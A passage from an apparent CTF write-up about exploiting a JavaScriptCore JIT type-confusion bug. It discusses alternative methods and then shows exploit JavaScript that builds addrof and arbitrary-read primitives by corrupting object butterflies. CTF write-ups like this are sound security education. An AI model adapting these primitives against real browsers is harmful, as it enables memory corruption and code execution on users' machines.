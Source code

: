 I found that there were multiple other ways to exploit this while testing the challenge, all of which were more difficult/contrived than the method I used. A couple such methods were:

+ Using the type confusion to create a standard confusion between boxed and unboxed arrays, then creating `addrof` and `fakeobj` primitives to fake a JSObject and create an overlap between two JSObjects. However, a few difficulties you would face while using this method is that you would need a StructureID leak (which can be obtained using inline properties), and you would need to be able to create both primitives in a single JITed function.
+ Another more advanced version of the previous method would be to use the type confusion to write OOB into an Array's length field, thus creating an array overflow and potentially a more stable type confusion. However, you would still need a StructureID leak to exploit this.

Edit: After the CTF, I found that the majority of teams used the first of these two methods to exploit this challenge.

## Full exploit

```js
var tmp_buf = new ArrayBuffer(8)
var f64 = new Float64Array(tmp_buf)
var u32 = new Uint32Array(tmp_buf)
var BASE = 0x100000000

function f2i(f) {
    f64[0] = f
    return u32[0] + BASE*u32[1]
}
function i2f(i) {
    u32[0] = i % BASE
    u32[1] = i / BASE
    return f64[0]
}
function hex(x) {
    if (x < 0) return `-${hex(-x)}`
    return `0x${x.toString(16)}`
}

function jit(a, addr) {
    a.j = addr
}

let a = {x: 13.37, y: 26.6, z: 13.37, j: 13.37}
let b = {x: 13.37, y: 26.6, 0: 13.37}
let c = {x: 27.37, y: 26.6, 0: 13.37}
let d = {x: 27.37, y: 26.6, 0: 13.37}

for(let i = 0; i < 100; i++){
    jit(a, {})
}
// Overwrite c's butterfly with d
jit(b, d)

// Create type confusion between d's first inline property and c's butterfly 
// -> interpret object as raw double
function addrof(obj) {
    d.x = obj
    return f2i(c[2])
}

// Arbitrary r/w by overwriting d's butterfly
function read(addr) {
    c[1] = i2f(addr)
    return f2i(d[0])
}
```